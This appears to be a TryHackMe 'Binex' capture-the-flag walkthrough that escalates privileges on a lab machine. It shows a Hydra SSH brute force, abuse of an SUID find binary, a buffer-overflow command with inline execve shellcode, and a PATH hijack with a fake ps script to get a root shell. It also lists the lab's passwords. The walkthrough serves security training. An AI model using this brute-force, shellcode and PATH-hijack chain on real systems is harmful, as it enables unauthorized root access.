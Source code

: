 # [Binex](https://tryhackme.com/room/binex)

## Escalate your privileges by exploiting vulnerable binaries

# Gain initial access

## Enumerate the machine and get an interactive shell. Exploit an SUID bit file, use GNU debugger to take advantage of a buffer overflow and gain root access by PATH manipulation.

### What are the login credential for initial access

_Hint 1: RID range 1000-1003 Hint 2: The longest username has the unsecure password._

1. Scan the target to identify open ports and services

```bash
nmap IP
```

[SCREEN01]

2. Enumerate users with `enum4linux`
   - The longest username is **tryhackme**

```bash
enum4linux IP
```

[SCREEN02]

3. Brute force the SSH password with Hydra
   - The credentials are `tryhackme:thebest`

```bash
hydra -l tryhackme -P /root/Tools/wordlists/rockyou.txt  ssh://IP
```

[SCREEN03]

---

# SUID :: Binary 1

## Read the flag.txt from des's home directory

### What is the contents of /home/des/flag.txt?

_File permission is all you need.. Setuid..._

1. Log in via SSH using our discovered credentials

```bash
ssh tryhackme@IP
```

2. Search for SUID binaries on the system

```bash
find / -type f -perm -u=s 2>/dev/null
```

[SCREEN04]

3. We can use `/usr/bin/find` command to read the flag

```bash
/usr/bin/find /home/des/flag.txt -type f -exec cat {} \;
```

[SCREEN05]

---

# Buffer Overflow :: Binary 2

## Read the flag.txt from kel's home directory

If you are stuck, here are the hints for the exploit.

### What is the contents of /home/kel/flag.txt?

1. Log in as `des` user and analyze the vulnerable program

```bash
ssh des@IP
# Password: destructive_72656275696c64

cd /home/des
ls
cat bof64.c
```

[SCREEN06]

2. This C program contains a buffer overflow vulnerability in the `foo` function. The buffer is 600 bytes, but read can read up to 1000 bytes, allowing for overflow

```bash
(python -c 'print("\x90" * 539 + "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05" + "A" * 50 + "\x7c\xe3\xff\xff\xff\x7f\x00\x00")';cat) | ./bof

whoami
cat /home/kel/flag.txt
```

[SCREEN07]

---

# PATH Manipulation :: Binary 3

## Get the root flag from the root directory. This will require you to understand how the PATH variable works.

### What is the contents of /root/root.txt?

_The true path leads you to the flag._

1. Log in as `kel`

```bash
su kel
# Password: kelvin_74656d7065726174757265
ls /home/kel
cat exe.c
```

[SCREEN08]

2. Create a malicious ps script in `/tmp`. Add `/tmp` to the beginning of your PATH. Execute the vulnerable program to get root shell and read the flag

```bash
cd /tmp
echo -e '#!/bin/bash\n/bin/bash' > ps
chmod +x ps
export PATH=/tmp:$PATH
cd /home/kel
./exe
cat /root/root.txt
```

[SCREEN09]
